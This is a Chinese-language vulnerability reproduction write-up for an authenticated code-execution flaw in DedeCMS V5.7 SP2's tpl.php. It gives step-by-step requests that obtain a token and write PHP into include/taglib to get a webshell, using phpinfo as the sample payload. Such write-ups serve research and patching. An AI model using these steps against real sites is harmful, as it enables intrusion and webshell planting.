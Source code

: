 # DedeCMS V5.7 SP2后台代码执行漏洞复现

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

织梦内容管理系统(Dedecms)是一款PHP开源网站管理系统。Dedecms V5.7 SP2版本中的 tpl.php 中存在代码执行漏洞，可以通过该漏洞在增加新标签中上传木马，获取webshell。该漏洞利用需要登录后台,并且后台的账户权限是管理员权限。

## 漏洞影响

DedeCMS V5.7 SP2

## 漏洞复现

此漏洞位于后台，因此我们需要先登录到后台

默认后台地址 dede/ ，先按照网上已有的文章复现

先获取 token

```plain
http://www.dedecms521.com/dede/tpl.php?action=upload
```

得到 token

```plain
33980963afa91dcc6c2f1efceefc87b0
```

然后访问

```plain
http://www.dedecms521.com/dede/tpl.php?filename=secnote.lib.php&action=savetagfile&content=<?php phpinfo();?>&token=33980963afa91dcc6c2f1efceefc87b0
```

这时就已经写入了 webshell

```plain
http://www.dedecms521.com/include/taglib/secnote.lib.php
```

![img](https://gitee.com/d5shenwu/nopic/raw/master/img/image-20210626220121525.png)

## 总结

其实这个漏洞只是 dede 提供的一个文件管理的功能，但是被利用了，基本上只要进到后台，利用这个还是很容易getshell的。

该过程实际上就是

```plain
模板 -> 标签源码管理 -> 增加一个新的标签
```

然后填入自己的代码

```php
<?php phpinfo();?>
```

## 参考链接

- `https://wiki.bylibrary.cn/漏洞库/01-CMS漏洞/DedeCMS/DedeCMS V5.7 SP2后台存在代码执行漏洞/`



`github` 链接：`https://github.com/d5shenwu/vulPOC`

